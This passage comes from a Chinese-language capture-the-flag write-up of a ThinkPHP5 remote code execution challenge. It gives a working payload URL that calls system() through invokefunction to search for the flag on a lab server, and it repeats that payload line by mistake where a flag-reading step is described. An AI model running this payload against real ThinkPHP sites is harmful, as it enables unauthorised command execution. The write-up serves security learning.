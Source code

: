 打开试了半天，不知道是干哈的，没办法，搜一下吧。是thinkphp5 rce漏洞，这个以前没有见过。
![6c7f65ceff78de22ac1b3536a1421eec.png](./攻防世界Web-WP/22.png)
[ThinkPHP5.x rec漏洞分析与复现](https://blog.csdn.net/qq_40884727/article/details/101452478)
先看一下thinkphp的版本号，然后对症下药。
![71744c42f55e1c06d4fc2725917d0ca7.png](./攻防世界Web-WP/23.png)
然后去百度查找该版本poc。
查找flag，构造payload
>http://111.198.29.45:53630/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22

然后查看flag
>http://111.198.29.45:53630/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22

![0bd59f138ff2510526a68df393e9c74d.png](./攻防世界Web-WP/24.png)

### Web_php_include
